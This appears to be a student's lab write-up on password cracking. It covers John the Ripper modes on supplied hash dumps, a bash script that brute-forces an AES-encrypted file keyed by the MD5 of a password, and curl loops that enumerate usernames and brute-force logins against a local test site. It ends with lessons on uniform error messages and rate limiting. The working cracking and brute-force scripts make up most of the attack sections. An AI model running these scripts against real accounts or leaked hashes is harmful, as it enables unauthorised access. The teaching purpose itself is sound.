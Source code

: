 
## Part A-  BASIC PASSWORD CRACKING

**Skills to learn**: John the ripper cracking modes 

Check the files folder inside this directory. It should contain, 

  - Password hash files: easy_dump, medium_dump, hard_dump
  - wordlists folder: GawkerPasswords.txt, SonyPasswords.txt, YahooVoicePasswords.txt, passwords.txt

We will use John along with [jumbo patch](http://openwall.info/wiki/john/patches). Every file, namely, easy_dump, medium_dump, hard_dump has 5 users you need to crack

To view passwords already cracked by JTR for a password dump file, one can run the following command: ```~/JohnTheRipper-unstable-jumbo/run/john --show easy_dump```

### Cracking easy_dump

The following command tells JTR to try “simple” mode, then the default wordlists containing likely passwords, and then “incremental” mode. In other words, JTR uses default modes. 

```~/JohnTheRipper-unstable-jumbo/run/john easy_dump```

NOTE: ~/JohnTheRipper-unstable-jumbo/run/john is a path to the executable 

### Cracking medium_dump

The wordlist mode allows JTR to use thousands of passwords and generate their hashes to compare them to the hashes inside the file
```~/JohnTheRipper-unstable-jumbo/run/john --wordlist=/home/student/wordlists/YahooVoicePasswords.txt medium_dump```

I was able to crack only one user with YahooVoicePassowrds. Therefore, I used another wordlist RockYouPasswords.txt. This wordlist is not present in this repo because of size but I believe one can use /usr/share/wordlists/rockyou.txt.gz in Linux. 

Through this command, I was able to crack rest of the users 

```~/JohnTheRipper-unstable-jumbo/run/john --wordlist=/home/student/wordlists/RockYouPasswords.txt medium_dump```

### Cracking hard_dump

This one occupied most of my time. To crack hard users, we will use wordlists with "mangling rules" provided by JTR. 

```~/JohnTheRipper-unstable-jumbo/run/john --rules --wordlist=/home/student/wordlists/YahooVoicePasswords.txt hard_dump```
```~/JohnTheRipper-unstable-jumbo/run/john --rules --wordlist=/home/student/wordlists/RockYouPasswords.txt hard_dump```

However, I was only able to find 4 users with this. For the 5th user, I used ```--rules:single```. This is a hybrid of mangling rules with simple mode. It turned out that 5th user password was in a wordlist but it was flipped. 


<br> 

## Part B - OFFLINE ATTACK 

**Skills to learn**: Bash scripting, openssl utility, Generating passwords from John the ripper to stdout 

Hacker encrypted the file: secret_file.aes256.txt
- It was encrypted using AES 256 using the openssl command line tool.
- The encrypted file is BASE64 encoded.
- The hacker thought that since passwords were insecure, they would first hash their encryption password using md5 to make it "more random" and harder to guess.
- The MD5 hash of the hacker's password was used as the password given to openssl for the AES encryption.
- The contents of the file are Lorem Ipsum in ascii text.

```
rm /home/student/JohnTheRipper-unstable-jumbo/run/john.rec

/home/student/JohnTheRipper-unstable-jumbo/run/john --wordlist=wordlists/YahooVoicePasswords.txt -stdout |
  while IFS= read -r password
  do
    #echo "\n ----------------------------------------"
    #echo "\n Password generated is $password"
    hash=`echo -n $password | openssl dgst -md5 | cut -d ' ' -f2`
    #echo "\n MD5 hash of the password is $hash"
    #echo "\n Output while decryption ..."
    output=`openssl enc -d -aes256 -a -k $hash -in secret_file.aes256.txt`
    if [ $? -eq 0 ]; then
        echo $output | grep -P -n "[\x80-\xFF]"
        if [ $? -eq 0 ]; then
            continue
        else
            echo "\n found 1 $password"
            exit 0;
        fi
    fi
  done
echo "NOT FOUND :("
```

This is my exploit. Let's break it down to understand it. 

```rm /home/student/JohnTheRipper-unstable-jumbo/run/john.rec``` -> This is done to prevent the error "Crash recovery file is locked". 

```/home/student/JohnTheRipper-unstable-jumbo/run/john --wordlist=wordlists/YahooVoicePasswords.txt -stdout |``` -> Generate passwords from wordlist using John and output them on stdout. Later, pipe them so our while loop can read them line by line. 

```    hash=`echo -n $password | openssl dgst -md5 | cut -d ' ' -f2` ``` -> Generate md5 hash and just take the hash value from output i.e remove extra text "(stdin)="

```    output=`openssl enc -d -aes256 -a -k $hash -in secret_file.aes256.txt` ``` -> Try to decrypt using openssl. 

```    
if [ $? -eq 0 ]; then 
  echo $output | grep -P -n "[\x80-\xFF]"
        if [ $? -eq 0 ]; then
            continue
        else
            echo "\n found 1 $password"
            exit 0;

``` 

-> $? refers to the exit status of the last command executed. If the command was successful, then it is 0 otherwise 1

```  echo $output | grep -P -n "[\x80-\xFF]" ``` -> Exit status of this command is 0 if non ASCII character were found

<br> 

## Part C - ONLINE ATTACK 

**Skills to learn**: curl command line tool, bash scripting, password cracking

Our goal is to get past the login page of the website below. We would need to find active usernames and crack password for one of the accounts. 

![Screenshot](files/website/website.png?raw=true)

### Cracking active usernames 

I tried a random username and I get a following alert:

![Screenshot](files/website/website-uname-not-found.png?raw=true)

I run the following script to find active usernames: 

```
cat facebook-firstnames.txt | head -n100000 |
  while IFS= read -r uname
  do
    #echo $uname
    output=`curl --data "username=$uname&password=123" localhost:5000/login 2>/dev/null | grep "Error. Username does not exist."`
    if [ $? -eq 0 ]; then
        continue
    else
        echo "$uname" >> "valid_usernames.txt"
        echo $uname
    fi
  done
```

This script works by making a POST request to the server and if the response contains **"Error. Username does not exist."**, we can skip that username and look for other candidates

### Cracking password for an active user

I tried to login with an active user "adam" with a random password. This is what I got: 

![Screenshot](files/website/website-invalid-pass.png?raw=true)

Again, we can modify our existing exploit to search for "Invalid password." string here.

```
wordlist="500-worst-passwords.txt"

cat valid_usernames.txt |
  while IFS= read -r uname
  do
    echo "\n Current user $uname"
    cat $wordlist |
    while IFS= read -r passwd
    do
    #echo "\n Trying for $uname $passwd"
    output=`curl --data "username=$uname&password=$passwd" localhost:5000/login 2>/dev/null | grep "Invalid password."`
    if [ $? -eq 0 ]; then
        continue
    else
        echo "$uname + $passwd" >> "valid_passwords2.txt"
        echo "$uname + $passwd"
        break
    fi
    done
  done
```

**NOTE**: Here, I am not using wordlists from **partA**. Instead, I am using 500-worst-passwords.txt I found on a random Github repo. This is because, users on social media sites are most likely to use bad passwords than linux users.

I found the password "123456789" for a user named "michael". We're in ;) 

![Screenshot](files/website/website-login-success.png?raw=true)

### SECURITY LESSON:

From this website and exploit, we can safely deduce two lessons 

- One should display same message for wrong usernames and passwords. Otherwise, it is easy for one to enumerate users. One username is enough to find a security weaklink.
- Websites should have login rate limiting to prevent brute forcing  


